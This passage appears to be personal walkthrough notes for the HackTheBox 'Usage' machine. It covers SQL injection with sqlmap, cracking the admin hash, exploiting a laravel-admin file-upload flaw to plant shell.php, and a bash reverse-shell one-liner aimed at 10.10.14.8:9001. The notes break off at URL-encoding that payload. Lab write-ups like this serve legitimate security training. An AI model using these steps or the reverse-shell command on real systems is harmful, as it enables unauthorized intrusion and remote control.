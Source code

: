 Getting the admin_users table instead using sqlmap 

![[HackTheBox/Linux/attachments/Pasted image 20250512004150.png]]
- got admin hash 

Crack this hash using hashcat and get the password `whatever1` for the admin user 

![[HackTheBox/Linux/attachments/Pasted image 20250512004312.png]]

### Login to website as admin 

Use found creds to login to admin.usage.htb

![[HackTheBox/Linux/attachments/Pasted image 20250512004425.png]]
We're logged in!
![[HackTheBox/Linux/attachments/Pasted image 20250512004448.png]]
- encore/laravel-admin 1.8.18 -> search for exploits here

Googling for exploits on this laravel version and find there's likely a arbitrary code execution vuln
![[HackTheBox/Linux/attachments/Pasted image 20250512004649.png]]
- it's a php file upload vulnerability 

Intercept the web form of the admin user 

![[HackTheBox/Linux/attachments/Pasted image 20250512195344.png]]
- change filename to `shell.php`
- add php script to request body

![[HackTheBox/Linux/attachments/Pasted image 20250512195447.png]]
- this should change the avatar to the shell script

Navigate to the admin user profile again 

![[HackTheBox/Linux/attachments/Pasted image 20250512195549.png]]

Then execute the `id` command and confirm code execution 

![[HackTheBox/Linux/attachments/Pasted image 20250512195637.png]]

#### Get a reverse shell 
Returning the Burp request and changing to a POST request

![[HackTheBox/Linux/attachments/Pasted image 20250512195752.png]]
- Change request method to POST

The add the reverse shell script to the body of the request 

```
bash -c 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1'
```

Then url-encode it

